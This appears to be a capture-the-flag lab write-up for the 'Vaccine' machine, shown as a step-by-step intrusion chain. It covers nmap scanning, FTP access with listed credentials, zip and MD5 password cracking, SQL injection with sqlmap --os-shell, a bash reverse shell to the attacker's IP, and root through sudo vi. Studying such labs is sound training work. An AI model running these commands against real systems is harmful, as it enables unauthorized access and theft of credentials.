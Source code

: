 # Vaccine

## ifconfig

<pre>
inet 10.10.14.69  netmask 255.255.254.0
inet6 fe80::d484:44d2:fd97:c02c
</pre>

## nmap

<pre>
sudo nmap -sC -sV -A 10.10.10.46

Nmap scan report for 10.10.10.46
Host is up (0.24s latency).
Not shown: 997 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 8.0p1 Ubuntu 6build1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 c0:ee:58:07:75:34:b0:0b:91:65:b2:59:56:95:27:a4 (RSA)
|   256 ac:6e:81:18:89:22:d7:a7:41:7d:81:4f:1b:b8:b2:51 (ECDSA)
|_  256 42:5b:c3:21:df:ef:a2:0b:c9:5e:03:42:1d:69:d0:28 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-title: MegaCorp Login

Network Distance: 2 hops
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 5900/tcp)
HOP RTT       ADDRESS
1   244.85 ms 10.10.14.1
2   244.90 ms 10.10.10.46
</pre>

## Need to install ftp

<pre>
ftp 10.10.10.46
username: ftpuser
password: mc@F1l3ZilL4
</pre>

and then get the backup.zip

## Use zip hash to crack

> zip2john [backup.zip](./ftp/backup.zip) > [backup.hash](./ftp/backup.hash)

> john [backup.hash](./ftp/backup.hash) --show 

<pre>
backup.zip:741852963::backup.zip:style.css, index.php:backup.zip
1 password hash cracked, 0 left
</pre>

- unzip with password 741852963

> unzip backup.zip 


## Try login on [index.php](./ftp/backup/index.php)

<pre>
username: admin
password (md5 reverse): 2cb42f8734ea607eefed3b70af13bbd3 ( qwerty789)
</pre>

## Sqlmap to hack os shell

> sqlmap 10.10.10.46/dashboard.php?search=whatever --cookie="PHPSESSID=01aruoep6i9jf18e8ho8runboo" --os-shell

### Check self name

> whoami

<pre>
postgres
</pre>

### Check current path

> pwd

<pre>
/var/lib/postgresql/11/main
</pre>

### Remote command to local

*Source*

> bash -c 'bash -i >& /dev/tcp/10.10.14.69/*port* 0>&1'

*Destination*

> nc -lvnp *port*

### Get ID

> id

<pre>
uid=111(postgres) gid=117(postgres) groups=117(postgres),116(ssl-cert)
</pre>

### Find postgresql account in [/var/www/html/dashboard.php](./dashboard.php)

<pre>
username: postgres
password: P@s5w0rd!
port:     5432 (omit)
dbname:   carsdb
</pre>

## Sudo lists all privilege current user can do

> sudo -l

<pre>
Matching Defaults entries for postgres on vaccine:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User postgres may run the following commands on vaccine:
    (ALL) /bin/vi /etc/postgresql/11/main/pg_hba.conf
</pre>

- Postgres can use *vi* of */bin/vi* (need sudo)

> which vi

<pre>
/usr/bin/vi
</pre>

- Use *sudo vi* to get root

> sudo /bin/vi /etc/postgresql/11/main/pg_hba.conf

- Input commend in *sudo vi* to get root privilege

> :!/bin/bash -P

## Finally

<pre>
root.txt
dd6e058e814260bc70e9bbdef2715849
</pre>
